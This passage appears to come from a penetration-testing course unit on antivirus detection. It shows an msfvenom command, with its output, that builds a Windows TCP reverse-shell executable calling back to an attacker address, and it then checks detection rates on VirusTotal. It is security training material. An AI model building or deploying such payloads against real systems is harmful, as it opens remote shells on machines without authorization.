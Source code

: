 To demonstrate the effectiveness of various antivirus products, we will start by scanning a popular _Metasploit_ payload. Using _msfvenom_, we will generate a standard [_Portable Executable_](https://en.wikipedia.org/wiki/Portable_Executable) (PE) file containing our payload. In this case we will use a simple TCP reverse shell.

The PE file format is used on Windows operating systems for executable and object files. The PE format represents a Windows data structure that details the information necessary for the [_Windows Loader_](https://en.wikipedia.org/wiki/Loader_(computing)) to manage the wrapped executable code including required dynamic libraries, API import and export tables, etc.

Before generating any Metasploit payloads, it is a best practice to make sure we are running the latest version of Kali. Metasploit gets updated frequently and its AV signatures could change as well. AV vendors must rebuild those signatures and push them as updates. This constant and intrinsic delay in pushing new up-to-date signatures could give attackers an extra edge during a penetration test, since a fresh Metasploit version might run undetected due to stale AV signatures.

Let's generate the test binary payload by running the **msfvenom** command followed by the **\-p** argument specifying the payload. We'll then pass the reverse shell local host (**LHOST**) and local port (**LPORT**) arguments along with the **EXE** file format and redirect the output to a file named **binary.exe**.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
...
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

> Listing 5 - Generating a malicious PE containing a meterpreter shell.

Next, we will run a virus scan on this executable. Rather than installing many antivirus applications on our local machine, we can upload our file to [_VirusTotal_](https://www.virustotal.com/#/home/upload), which will scan it to determine the detection rate of various AV products.

VirusTotal is convenient, but it generates a hash along with storing the original file for each unique submission. The submitted files along with the metadata are then shared with all participating AV vendors. As such, take care when submitting sensitive payloads as the hash is considered public from the time of first submission.

The results of this scan are listed below.

![[/9a05cfc8fe2cd0438b9b48b03c79ed23-antivirus_evasion_01b.png]]

Figure 1: Virustotal results on the msfvenom payload.

We'll notice in our results that many antivirus products determined our file is malicious based on the different detection mechanisms we have illustrated in this section.

In this Learning Unit, we have explored the different components that constitute a modern AV and covered the various strategies adopted to detect malicious software.

In the next Learning Unit, we are going to make use of this knowledge and learn the different mechanisms that enable attackers to evade antivirus detections.
